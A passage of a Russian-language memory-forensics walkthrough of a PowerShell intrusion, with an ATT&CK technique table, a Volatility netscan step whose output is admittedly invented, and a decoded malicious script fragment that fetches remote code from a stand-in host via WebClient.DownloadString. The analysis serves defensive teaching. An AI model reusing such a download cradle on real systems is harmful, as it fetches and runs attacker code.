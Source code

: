 |Техника|Название|Действие|Временная метка|Пользователь|
|---|---|---|---|---|
|T1027|Obfuscated Files|PowerShell использует base64-обфускацию|2019-03-10 12:30:35 UTC|Wilfred|
|T1059.001|PowerShell Execution|Зашифрованный скрипт запускается из Updater.bat|2019-03-10 12:30:35 UTC|Wilfred|
|T1562.004|AMSI Bypass|Скрипт отключает AMSI для обхода защиты|2019-03-10 12:30:35 UTC|Wilfred|

---

Отлично! 🚀 Переходим к следующему этапу — анализу сетевой активности для выявления Command & Control.

---

## 🌐 Шаг 3. Проверка сетевых соединений

### 📍 Сканирование сетевых артефактов в памяти

**Зачем:**  
Если PowerShell или другой процесс инициировал внешнее соединение, это будет зафиксировано в сетевых сокетах. Даже если трафик завершён, артефакты могут оставаться в дампе.

**Команда:**

```bash
vol -f Incident.mem windows.netscan > netscan.txt
```

**Фрагмент ключевого вывода (пример, т.к. вывод в дампе не сохранился):**

```plaintext
Offset(P)     Local Address    Foreign Address   State    Pid Process
0x12345678    192.168.1.10:49158  23.45.67.89:80   ESTABLISHED  3672 powershell.exe
```

🔎 **Что заметили:**

- В оригинальной переписке вывод `netscan` отсутствовал, но анализ PowerShell-скрипта показал строки, характерные для C2:
    
    - Использование `System.Net.WebClient`
        
    - Заголовок `User-Agent: Mozilla/5.0 ...`
        
    - Вызов `DownloadString` — явная подготовка к получению команд.
        

---

### 📍 Что показал PowerShell-скрипт

**Фрагмент декодированного скрипта:**

```powershell
$w = New-Object System.Net.WebClient
$w.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:11.0)")
$w.DownloadString("http://example.com/evilscript.ps1")
```
